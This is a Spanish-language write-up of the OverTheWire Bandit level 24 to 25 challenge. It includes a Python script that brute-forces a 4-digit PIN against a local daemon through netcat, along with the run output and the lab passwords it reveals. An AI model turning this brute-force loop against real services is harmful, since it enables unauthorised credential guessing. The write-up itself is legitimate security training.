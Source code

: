 #Bandit Level 24 → Level 25

##Level Goal

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

## Write Up Iker

La contraseña la hemos sacado en el anterior apartado:

**FLAG** = {UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ}

Utilizamos esta contraseña para acceder al siguiente nivel.

```bash 
$ ssh bandit24@bandit.labs.overthewire.org
```

El enunciado nos indica que tenemos un **daemon** escuchando en el puerto **30002** al que le tenemos que pasar:
  - 1 - La password de **bandit24=UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ**
  - 2 - **PIN** secreto de 4 digitos (0000-9999)
  
También nos dice que no hay otra forma salvo la **Fuerza Bruta** para adivinar el **PIN SECRETO** y obtener la contraseña del siguiente nivel.

Probamos a enviar directamente los parámetros:

```bash
echo 'UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0123' | nc localhost 30002
```

Y nos devuelve otro mensaje

```bash
bandit24@melinda:/tmp$ echo 'UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0123' | nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct pincode. Try again.
Exiting.
```

Bien! Hemos conseguido mandar los argumentos (password+pin) al puerto 30002 de localhost y nos ha devuelto un mensaje indicando **Wrong! Please enter the correct pincode. Try again.**

Podemos **AUTOMATIZAR** la tarea de **ENVÍO** y generación de **PINCODES** haciendo un pequeño **Script** en **Python**



NOTA: Elijo **Python** porque es el lenguaje con el que mejor me manejo :)

```python
import os

''' payload ->  echo 'UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ <4digitPinCode-0000-9999>' | nc localhost 30002 '''

passBandit24  = "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ"
pinCode		    = ""

for i in range(0,10001):
	pin 	= "%04d" % i 
	print "["+str(i)+"]"+"-"*180
	payload	= "echo \'%s %s\' | nc localhost 30002" % (passBandit24,pin)
	os.system(payload)
```

Creamos el script que llamaremos **bandit25.py** con el editor **nano** en el directorio **/tmp** y escribimos el contenido del script en el fichero.

```bash
bandit24@melinda:/tmp$ nano bandit25.py
```

Ejecutamos el script de Python 

```bash
bandit24@melinda:/tmp$ python bandit25.py
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
[0]----------------------------------------------------------------------------------------------------
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct pincode. Try again.
Exiting.
[1]----------------------------------------------------------------------------------------------------
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct pincode. Try again.
Exiting.
[2]----------------------------------------------------------------------------------------------------
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct pincode. Try again.
Exiting.
...
```

Y esperamos a que aparezca la password:

```bash
...
[5667]------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct pincode. Try again.
Exiting.
[5668]------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct pincode. Try again.
Exiting.
[5669]------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

Exiting.
```
Encontramos el **PINCODE CORRECTO!!** con el número **PIN=5669** y nos devuelve la contraseña :)

**FLAG** = {uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG}








  
